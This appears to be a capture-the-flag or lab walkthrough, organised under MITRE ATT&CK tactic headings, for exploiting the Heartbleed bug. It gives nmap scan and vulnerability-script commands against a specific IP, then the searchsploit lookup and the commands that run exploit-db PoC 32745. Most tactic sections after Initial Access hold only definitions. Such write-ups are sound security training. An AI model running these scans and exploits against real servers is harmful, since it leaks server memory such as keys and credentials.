


# HEARTBLEED

## Reconnaissance  

 gather information and plan future operations

### NMAP  

 `:> nmap 44.192.84.180`  

   

 There are a number of potential attack points. Refine the recon by discovering services

 `:> nmap 44.192.84.180 -sV`
 
   

 Scan the ports for identifiable vulnerabilities.  

  `:> nmap 44.192.84.180 -p 443 --script vuln`

  Scanning port 443 reveals the heartbleed vulnerability  

   
 
## Resource Development  

  creating, purchasing, or compromising/stealing resources that can be used to support targeting

### EXPLOIT-DB  

 The go-to resource for proofs of concepts.  
 [Reviewing and choosing the PoC written by Jared Stafford](https://www.exploit-db.com/exploits/32745)

   

 Alternatively, identify the exploit within kali linux

 `:> searchsploit heartbleed`  

    

### Establish the heartbeat

 Open a web browser and establish the TLS connection

   

## Initial Access  

 use of various entry vectors to gain initial foothold within a network

 Use one of the options identified by the searchsploit command to initiate the attack

 Copy the exploit from its home location to a working directory. I prefer to never work with an original.  

 `:> cp /usr/share/exploitdb/exploits/multiple/remote/32745.py ~/Documents`

 Execute the exploit, observe the feedback and see the site is vulnerable.

 `:> python2 32745.py`
 
    
    

 Finding the flag can be slightly easier by outputting the results to a text file.  
  `:> python2 32745.py > output.txt`

## Execution  

 techniques that result in adversary-controlled code running on a local or remote system

## Persistenace  

 techniques adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access

## Privilege Escalation  

 techniques used to gain higher-level permissions on a system or network

## Defense Evasion  

 techniques used to avoid detection throughout their compromise.

## Credential Access  

 techniques for stealing credentials like account names and passwords

## Discovery  

 techniques used to gain knowledge about the system and internal network

## Lateral Movement  

 techniques used to enter and control remote systems on a network

## Collection  

 techniques used to gather information and the sources information is collected from that are relevant to following through on the adversary's objectives

## Command and Control  

 techniques used to communicate with systems under adversary control within a victim network

## Exfiltration  

 techniques used to steal data from your network

## Impact  

 techniques used to disrupt availability or compromise integrity by manipulating business and operational processes  